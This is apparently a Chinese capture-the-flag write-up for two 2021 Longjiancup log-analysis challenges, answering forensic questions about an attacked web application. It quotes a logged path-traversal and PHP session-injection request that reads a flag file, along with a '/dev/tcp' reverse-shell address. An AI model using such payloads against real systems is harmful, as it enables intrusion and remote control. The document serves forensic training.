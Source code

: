## 日志流量分析

### [陇剑杯 2021]日志分析

#### 问1

> 单位某应用程序被攻击，请分析日志，进行作答：
> 网络存在源码泄漏，源码文件名是_____________。(请提交带有文件后缀的文件名，例如x.txt)。得到的flag请使用

发现应该扫描目录了，查找200响应

![image-20241213134503242](https://gitee.com/bx33661/image/raw/master/path/image-20241213134503242.png)

#### 问2

> 单位某应用程序被攻击，请分析日志，进行作答：
> 分析攻击流量，黑客往/tmp目录写入一个文件，文件名为_____________。得到的flag请使用NSSCTF{}格式提交

![image-20241213134701937](https://gitee.com/bx33661/image/raw/master/path/image-20241213134701937.png)



#### 问3

> 单位某应用程序被攻击，请分析日志，进行作答：
> 分析攻击流量，黑客使用的是______类读取了秘密文件。得到的flag请使用NSSCTF{}格式提交。

```(空)
172.17.0.1 - - [07/Aug/2021:01:38:21 +0000] "GET /?filename=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Ftmp%2Fsess_car&content=func%7CN%3Bfiles%7Ca%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A16%3A%22.%2Ffiles%2Ffilename%22%3Bs%3A20%3A%22call_user_func_array%22%3Bs%3A28%3A%22.%2Ffiles%2Fcall_user_func_array%22%3B%7Dpaths%7Ca%3A1%3A%7Bs%3A5%3A%22%2Fflag%22%3Bs%3A13%3A%22SplFileObject%22%3B%7D HTTP/1.1" 302 879 "-" "python-requests/2.26.0"
```

SplFileObject



### [陇剑杯 2021]简单日志分析

#### 问1

> 某应用程序被攻击，请分析日志后作答：
> 黑客攻击的参数是______。（如有字母请全部使用小写）。得到的flag请使用NSSCTF{}格式提交。

![image-20241213135336807](https://gitee.com/bx33661/image/raw/master/path/image-20241213135336807.png)

发现参数为：user

#### 问2

> 某应用程序被攻击，请分析日志后作答：
> 黑客查看的秘密文件的绝对路径是_____________。得到的flag请使用NSSCTF{}格式提交。

![image-20241213140012560](https://gitee.com/bx33661/image/raw/master/path/image-20241213140012560.png)

A---->/Th4s_IS_VERY_Import_Fi1e



#### 问3

> 某应用程序被攻击，请分析日志后作答：
> 黑客反弹shell的ip和端口是_____________。（格式使用“ip:端口"，例如127.0.0.1:2333）。得到的flag请使用NSSCTF{}格式提交。

![image-20241213140412718](https://gitee.com/bx33661/image/raw/master/path/image-20241213140412718.png)

```(空)
/dev/tcp/192.168.2.197/8888
```

